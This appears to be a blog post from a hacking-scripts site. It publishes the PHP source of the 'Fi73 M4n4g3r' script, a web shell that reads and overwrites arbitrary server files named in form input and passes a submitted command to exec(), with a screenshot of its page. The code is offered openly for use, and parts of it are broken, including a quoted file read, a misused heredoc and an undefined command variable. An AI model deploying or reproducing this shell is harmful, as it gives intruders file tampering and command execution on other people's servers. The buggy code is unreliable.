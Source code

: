 ```yaml
---
id: 311
title: Fi73 M4n4g3r script
author: admin
layout: post
guid: http://hackingscripts.com/?p=311
permalink: /fi73-m4n4g3r-script/
categories:
  - PHP
tags:
  - file manager
  - PHP
---
```

Fi73 M4n4g3r script


### Fi73 M4n4g3r script source code

{% highlight php %}<?php
$file = $error = $file_content = "";
if(isset($_POST["file"]) and (isset($_POST["modify"]))){

	$file = $_POST["file"];
	if(! file_exists("$file")) 
	{
		$error = "File $file doesnt exist!";
	}
	else
	{
		$file_content = "&lt;&lt;&lt;_END";
		echo "&lt;PRE&gt;";
		echo "file_get_contents($file)";
		echo "&lt;/PRE&gt;";
		_END;
	}
}
if(isset($_POST["file"]) and (isset($_POST["modify"])))
{
	$file = $_POST["file"];
	$text = $file_content = $_POST["modify"];
	$fh = fopen("$file" , "r+");
	if(! fwrite($fh , $text))
	{
		$error = "File $file couldnt be overwritten!";
	}
	else $error = "file $file successfully overwritten!";
	fclose($fh);
}
if(isset($_post["cmd"]))
{
	exec($cmd, $output, $status);
	if($status) echo "command failed!";
	else
	{
		echo "&lt;pre&gt;";
	foreach ($output as $line) echo "$line \n";
	}
}
echo &lt;&lt;&lt;_END
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;TITLE&gt;File manager&lt;/TITLE&gt;
&lt;/HEAD&gt;
&lt;BODY&gt;
&lt;CENTER&gt;&lt;H3&gt;Fi73 M4n4g3r&lt;/H3&gt;&lt;/CENTER&gt; 
$error &lt;BR /&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;input type = "text" name = "file" /&gt;
&lt;input type = "submit" value = "Get File"/&gt;
&lt;/form&gt;
&lt;form method = "post" action = "modifier.php"&gt;
&lt;textarea name = "modify" wrap = "off" cols = "15" rows = "20"&gt;
$file_content &lt;/textarea&gt;
&lt;input type = "hidden" name = "file" value = "$file" /&gt;
&lt;input type = "submit" value ="save changes" /&gt;
&lt;/form&gt;
&lt;form method ="post" action = "modifier.php"&gt;
&lt;input type = "text" name = "cmd" /&gt;
&lt;input type = "submit" value = "execute command"/&gt;
&lt;/form&gt;
&lt;/CENTER&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
_END;
?>
{% endhighlight %}

A screenshot of this very plain and boring looking script:<figure id="attachment_390" style="width: 537px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png" alt="Fi73 M4n4g3r screenshot" width="537" height="557" class="size-full wp-image-390" />][1]<figcaption class="wp-caption-text">Fi73 M4n4g3r screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png